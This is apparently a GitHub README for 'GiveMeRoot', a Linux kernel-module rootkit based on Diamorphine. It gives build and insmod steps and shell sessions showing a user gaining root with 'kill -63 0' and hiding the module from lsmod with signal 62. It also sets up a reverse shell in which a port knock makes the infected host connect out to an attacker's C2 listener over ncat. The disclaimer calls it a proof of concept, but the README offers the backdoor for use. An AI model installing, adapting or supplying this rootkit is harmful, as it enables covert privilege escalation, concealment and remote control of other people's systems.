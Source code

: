 # GiveMeRoot
Simple LKM rootkit based on [Diamorphine](https://github.com/m0nad/Diamorphine).

# Environment tested
 - Debian 9
 - Kernel 4.9.0-8-amd64

# How it works
Basically the rootkit hooks the syscall kill, and whenever it receives a signal 63, the process is changed to run with root permissions.

# Install
```bash
root@lkm:~/# git clone https://github.com/mthbernardes/givemeroot.git
root@lkm:~/# cd givemeroot
root@lkm:~/givemeroot# make
make -C /lib/modules/4.9.0-8-amd64/build M=/root/givemeroot modules
make[1]: Entering directory '/usr/src/linux-headers-4.9.0-8-amd64'
  Building modules, stage 2.
  MODPOST 1 modules
make[1]: Leaving directory '/usr/src/linux-headers-4.9.0-8-amd64'
root@lkm:~/givemeroot# insmod givemeroot.ko 
```

# Usage

## Grant root access
```bash
nuvm@lkm:~$ id
uid=1001(nuvm) gid=1001(nuvm) groups=1001(nuvm),100(users)
nuvm@lkm:~$ kill -63 0
nuvm@lkm:~$ id
uid=0(root) gid=0(root) groups=0(root),100(users),1001(nuvm)
```

## Hide/ Unhide module
```bash
nuvm@lkm:~$ lsmod | grep givemeroot
nuvm@lkm:~$ kill -62 0
nuvm@lkm:~$ lsmod | grep givemeroot
givemeroot             16384  0
nuvm@lkm:~$ kill -62 0
nuvm@lkm:~$ lsmod | grep givemeroot
```

## Reverse shell
### Configuration
Just edit the global variables
```
#define C2IP    "192.168.0.60"
#define C2PORT  "9090"
```
and set your c2 hostname/ipaddr and port.
### Usage
Start a listener on your c2
```bash
ncat -lvp 9090
```
and start a tcp connection from your c2 with the host running the rookit on port 1339 with port 1337 as source port ( the server does not need to be listening on this port)
```bash
ncat -p 1337 192.168.0.101 1339
```
then the host will connect to your c2 using ncat

# Disclaimer
Using this module might cause severe damage to your system, it was created as a proof of concept and should never be used on a production system!

By using this software the person in question agrees that they will use any of software in question in an ethical (non-malicious) way and agrees that the developer(s) are NOT held responsible for any damage caused by the use and or abuse of this software.

Misuse of any software from this website may result in criminal charges brought against the person in question depending on the country or state of residence which can result in probation, fines up or prison sentences up to 20 years in federal prison.
